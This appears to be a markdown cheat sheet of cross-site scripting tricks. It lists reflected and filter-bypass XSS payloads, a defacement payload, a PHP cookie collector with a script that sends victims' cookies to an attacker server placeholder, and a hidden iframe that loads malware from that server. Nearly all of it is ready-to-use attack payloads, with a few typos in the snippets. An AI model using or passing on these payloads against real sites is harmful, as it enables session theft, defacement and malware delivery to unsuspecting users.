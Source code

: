 # XSS tricks

## Reflected

### Simple test
This is a simple test to see what happens, this is not a prove that the field is vuln to xss

`<plaintext>`

### Simple XSS test

`<script>alert('Found')</script>`

`"><script>alert(Found)</script>">`

`<script>alert(String.fromCharCode(88,83,83))</script>`

### Bypass filter of tag script

`"  onload="alert(String.fromCharCode(88,83,83))`

`" onload="alert('XSS')`

bla is not a valid image, so this cause an error

`<img src='bla' onerror=alert("XSS")>`

## Persistent

`>document.body.innerHTML="<style>body{visibility:hidden;}</style><div style=visibility:visible;><h1>HACKED!</h1></div>";`


### PHP collector

`> cookie.txt`
`chmod 777 cookie.txt`

edit a php page like colector.php as follow:

```php
<?php
	$cookie=GET['cookie'];
	$useragent=$_SERVER['HTTP_USER_AGENT'];
	$file=fopen('cookie.txt', 'a');
	fwrite($file,"USER AGENT:$useragent || COOKIE=$cookie\n");
	fclose($file);
?>
```

Script to put in page:

`<scritp>new Image().src="http://OUR_SERVER_IP/colector.php?cookie="+document.cookie;</script>`

### Malware Donwloader via XSS

<iframe src="http://OUR_SERVER_IP/OUR_MALWARE" height="0" width="0"></iframe>

